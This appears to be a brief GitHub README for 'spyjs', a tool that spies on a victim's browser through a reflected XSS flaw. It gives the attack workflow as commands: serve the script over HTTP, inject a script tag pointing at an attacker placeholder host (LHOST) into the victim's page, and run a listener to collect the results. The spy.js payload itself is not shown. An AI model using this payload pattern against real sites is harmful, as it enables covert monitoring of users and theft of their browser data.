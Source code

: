 # spyjs
Simple js sample to spy on browser, when reflacted xss found


Start server to serve js
```bash
python3 -m http.server 8080
```

Do on victim
```js
 <script src="http://LHOST:lport/spy.js"></script>
```

start listener
```bash
python3 listen.py 
```






